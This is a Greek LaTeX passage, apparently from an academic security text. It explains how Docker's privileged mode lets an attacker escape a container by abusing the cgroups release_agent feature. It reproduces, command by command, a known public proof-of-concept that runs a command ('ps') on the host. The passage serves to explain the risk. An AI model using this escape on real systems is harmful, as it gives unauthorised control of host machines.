 Το \textlatin{Docker} έχει μια ειδική προνομιακή λειτουργία
\cite{Docker-in-Docker-Blog}. Αυτή η λειτουργία είναι ενεργοποιημένη, εάν κατά
την δημιουργία ενός κοντέινερ δοθεί η παράμετρος
\texttt{\textlatin{--privileged}}, η οποία επιτρέπει τη πρόσβαση σε όλες τις
συσκευές του \textlatin{host} και σε δυνατότητες του πυρήνα. Αυτή είναι μια
ισχυρή λειτουργία που επιτρέπει ορισμένες χρήσιμες λειτουργίες (π.χ. δημιουργία
εικόνων \textlatin{Docker} μέσα σε κοντέινερ \textlatin{Docker}). Το μειονέκτημα
της προνομιακής λειτουργίας είναι ότι όλες οι λειτουργίες του πυρήνα επιτρέπουν
σε έναν επιτιθέμενο μέσα στο κοντέινερ να διαφύγει και να αποκτήσει πρόσβαση
στον κεντρικό υπολογιστή.

Ένα παράδειγμα αυτού είναι η κατάχρηση ενός χαρακτηριστικού στα
\texttt{\textlatin{cgroups}} \cite{CGroup-Docs}. Όποτε ένα 
\texttt{\textlatin{cgroup}} απελευθερώνεται λόγω απουσίας διεργασιών που
τρέχουν, είναι δυνατό για να εκτελέσουμε μια εντολή (που ονομάζεται
\textlatin{release\_agent}). Είναι δυνατόν να ορίσουμε τέτοια
\textlatin{release\_agent} σε ένα προνομιακό \textlatin{docker}.
Εάν το \texttt{\textlatin{cgroup}} απελευθερωθεί, τότε
η εντολή εκτελείται στον κεντρικό υπολογιστή \cite{TrailOfBits-Docker-Escape}.

Μπορούμε να δούμε μια απόδειξη αυτής της επίθεσης που αναπτύχθηκε από
τον ερευνητή ασφαλείας \textlatin{Felix Wilhelm} \cite{Felix-Wilhem-Tweet}. \\

\texttt{\textlatin{1. (host)\$ docker run -it --rm --privileged ubuntu:latest bash}}

\texttt{\textlatin{2. (cont)\# d=`dirname \$(ls -x /s*/fs/c*/*/r* |head -n1)`}}

\texttt{\textlatin{3. (cont)\# mkdir -p \$d/w}}

\texttt{\textlatin{4. (cont)\# echo 1 >\$d/w/notify\_on\_release}}

\texttt{\textlatin{5. (cont)\# t=`sed -n 's/.*\textbackslash perdir=\textbackslash ([\^,]*\textbackslash ).*/\textbackslash 1/p' /etc/mtab`}}

\texttt{\textlatin{6. (cont)\# touch /o}}

\texttt{\textlatin{7. (cont)\# echo \$t/c >\$d/release\_agent}}

\texttt{\textlatin{8. (cont)\# printf '\#!/bin/sh\textbackslash nps >'"\$t/o" >/c}}

\texttt{\textlatin{9. (cont)\# chmod +x /c}}

\texttt{\textlatin{10. (cont)\# sh -c "echo 0 >\$d/w/cgroup.procs"}}

